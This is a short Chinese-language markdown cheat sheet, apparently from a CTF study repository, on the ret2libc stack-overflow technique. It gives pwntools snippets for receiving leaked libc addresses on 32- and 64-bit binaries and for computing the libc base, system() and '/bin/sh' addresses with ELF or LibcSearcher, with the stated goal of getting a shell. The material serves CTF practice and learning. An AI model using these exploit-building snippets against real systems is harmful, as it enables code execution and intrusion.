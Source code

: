 ```yaml
---
title: ret2libc
category: 栈溢出
---
```


# 一般步骤

1. 泄露 libc 地址
2. 计算 libc 基址与其他函数的地址
3. get shell

# 代码片段

## 接收泄露信息

### libc 地址
- 32 位程序
```python
address = u32(io.recvuntil('\xf7')[-4:])
log.success('address -> ' + hex(address))
```

- 64 位程序
```python
address = u64(io.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
log.success('address -> ' + hex(address))
```

## 计算 libc 基址与其他函数的地址

- ELF

```python
libc_base = address - libc.sym['function_name']
system_addr = libc_base + libc.sym['system']
str_bin_sh = libc_base + libc.search('/bin/sh').next()
log.success('libc_base -> ' + hex(libc_base))
```

- LibcSearcher

```python
libc = LibcSearcher('function_name', address)
libc_base = address - libc.dump('function_name')
system_addr = libc_base + libc.dump('system')
str_bin_sh = libc_base + libc.dump('str_bin_sh')
log.success('libc_base -> ' + hex(libc_base))
```

# 注意事项

- 下载题目文件时应注意文件中是否提供了相应的 libc 文件。若已提供相应的 libc 文件，则在调试时使用 pwntools 的 ELF 函数直接绑定该 libc。若没有提供相应的 libc 文件，则需要使用 LibcSearcher 库进行 libc 匹配。